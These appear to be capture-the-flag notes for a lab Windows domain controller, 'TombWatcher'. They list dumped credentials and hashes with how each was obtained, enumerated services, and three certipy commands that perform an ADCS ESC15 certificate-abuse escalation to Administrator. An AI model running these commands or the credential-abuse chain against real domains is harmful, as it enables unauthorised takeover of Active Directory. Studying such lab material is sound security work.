

# Creds & Services

| Name         | Password                              | Description                                                                       |
| ------------ | ------------------------------------- | --------------------------------------------------------------------------------- |
| henry        | H3nry_987TGV!                         | Default creds given at the beginning of the box                                   |
| Alfred       | basketball                            | Dump from --users command nxc \| WriteSPN over Alfred + Hashcat = password leaked |
| sam          |                                       | Dump from --users command nxc                                                     |
| john         | ad9324754583e3e42b55aad4d3b8d2bf      | Dump from --users command nxcrust - Shadow creds from sam to john                 |
| ansible_dev$ | NTLM:22d7972cb291784b28f3b6f5bc79e4cf | Read gmsa password from Alfred                                                    |
DC01.TOMBWATCHER.HTB

| Port | Service | Informations    |
| ---- | ------- | --------------- |
| 53   | DNS     | Simple DNS plus |
| 80   | http    |                 |
| 135  | WinRPC  |                 |
| 389  | LDAP    |                 |
| 445  | SMB     |                 |
# Enumeration
DNS -> No DNS transfer
HTTP -> Default IIS page, give us nothing
SMB -> default shares for Domain controller
# Attack chain


# ADCS exploitation - ESC15
```ruby
certipy req -u cert_admin -p 'Password123@' -dc-ip 10.129.45.150 -target dc01.tombwatcher.htb -ca tombwatcher-CA-1 -template WebServer -upn administrator@tombwatcher.htb -application-policies 'Certificate Request Agent'
certipy req -u cert_admin -p 'Password123@' -dc-ip 10.129.45.150 -target dc01.tombwatcher.htb -ca tombwatcher-CA-1 -template User -pfx cert_admin.pfx -on-behalf-of 'tombwatcher\Administrator'
certipy auth -pfx administrator.pfx -dc-ip 10.129.45.150
```
